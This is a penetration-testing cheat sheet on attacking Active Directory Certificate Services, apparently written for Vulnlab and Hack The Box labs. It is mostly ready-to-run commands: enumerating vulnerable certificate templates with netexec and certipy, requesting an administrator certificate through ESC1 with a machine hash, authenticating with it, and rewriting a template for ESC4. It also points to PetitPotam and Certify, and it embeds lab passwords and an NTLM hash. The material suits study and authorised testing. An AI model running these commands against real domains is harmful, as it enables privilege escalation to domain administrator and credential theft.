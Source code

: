 # 📜 Certificate Authority (CA)

### Certificate Authority(CA)

* [ ] `nxc ldap sendai.vl -u Elliot.Yates -p 'aditya123@' -M adcs`
* [ ] To check for vulnerable certificates&#x20;

```
sudo certipy-ad find -u 'a.briggs' -p 'password' -dc-ip <ip> -stdout -vulnerable
```

To get in bloodhound format : `-old-bloodhound`

* [ ] Add [custom queries](https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json) in `~./config/bloodhound/customqueries.json`

#### Esc1

* [ ] To request certificate:

```
certipy req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dc-ip 10.10.208.21 -key-size 4096 -debug
```

* [ ] To auth:

```
certipy auth -pfx administrator_dc01.pfx -dc-ip 10.10.208.21
```

#### Esc4

* [ ] Convert to ESC1 and follow ESC1 procedure:

```
certipy template -username 'clifford.davey'@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```

* [ ] Try [petitpotam.md](petitpotam.md "mention")
* [ ] Check nmap for certificate authority
* [ ] If found enumerate post exploitation with [certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [ ] Refer Absolute-HTB for more&#x20;
